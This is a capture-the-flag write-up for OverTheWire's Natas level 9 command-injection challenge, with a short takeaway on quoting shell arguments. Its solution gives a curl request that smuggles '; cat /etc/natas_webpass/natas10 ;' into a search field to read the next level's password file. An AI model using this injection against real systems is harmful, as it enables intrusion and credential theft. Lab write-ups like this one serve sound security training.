


# Command Me

**Platform:** OverTheWire Natas (mirrored by PCGCTF) · **Challenge ID:** 16 · **Category:** Web Exploitation — Natas · **Points:** 100

**Status:** Verified on OverTheWire from the saved live-auth record. Next-level password redacted.

## The challenge

natas9's search drops your input straight into a shell command. Read natas10's password file.

## Solving it

The source builds `grep -i $key dictionary.txt` with `$key` unquoted, so my input becomes shell syntax. I close the grep with a separator and run my own command to read the password file:

```sh
curl -sS --user natas9 --data-urlencode 'needle=; cat /etc/natas_webpass/natas10 ;' \
  -d 'submit=Search' http://natas9.natas.labs.overthewire.org/index.php
```

natas10's password comes back in the results.

## Screenshots





## Flag

Recovered natas10 password (kept private); PCGCTF candidate is `pcgCTF{<natas10 password>}`.

## Takeaway

User input pasted unquoted into a shell command is command injection. The fix is to never build shell strings from input — pass arguments safely instead.

## References

- [Original archived challenge](../../unsolved/web-exploitation-natas/016-command-me/README.md)
